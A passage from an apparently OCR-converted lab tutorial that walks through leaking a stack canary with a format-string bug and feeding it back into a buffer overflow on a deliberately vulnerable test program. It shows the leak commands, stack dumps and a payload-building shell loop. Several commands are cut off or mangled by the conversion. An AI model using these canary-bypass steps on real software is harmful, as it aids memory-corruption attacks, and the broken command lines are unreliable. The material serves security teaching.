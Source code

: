 The first compound bash command truncates the file {\em badinput.txt}, then fills it with 9 {\tt cafebabe}s (this is not exactly right as we will see in a little bit). The second command shows the file and then the third executes our vulnerable program. As you can see we have a message that states stack smashing detected. 
 
This means that the stack canary has changed due to our buffer overflow. You can verify this by inserting another {\em printf(argv1)} right before the return statement for example. If you do this, then you should see that the canary has changed to {\tt 0xbebafeca}.  
 
Now to see how we might use the format string to our advantage, we can open up a new terminal and execute a.out in that window. We can then read out the canary value out and then insert it into our little compound script in another window to populate the badinput.txt with the canary value. If we do things right, then we should expect the canary value to remain intact but the return value is now overwritten with the same canary value and thus cause a segmentation fault. 
 
Here is an attempt. First window 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%
b7fff918.bffff050.80482b7.0.bffff0e4.b7fbf000.bffff31b.ffffffff.2f.cafebabe.b7fd7858.6c6c6548.6f57206f.a64 
6c72.fbd16500.2.0.bffff098.8048606 
*** stack smashing detected ***: ./a.out terminated 
Aborted (core dumped) 
\end{code}
 
Second window - we ran this by reading the canary value {\tt 0xfbd16500} from the output and then inserting it into our script while the program is sleeping. 

\begin{code} 
seed@SEED:~/TEST$ truncate --size 0 badinput.txt; for i in {1..9}; do echo -n $'\xfb{}' >> badinput.txt; done 
\end{code}
 
Hmm. It didn't work. Let’s try again. 
 
First: 

\begin{code}
seed@SEED:~/TEST$ ./a.out $'%
b7fff918.bffff050.80482b7.0.bffff0e4.b7fbf000.bffff31b.ffffffff.2f.cafebabe.b7fd7858.6c6c6548.6f57206f.a64 
6c72.7a881300.2.0.bffff098.8048606 
\end{code}
 
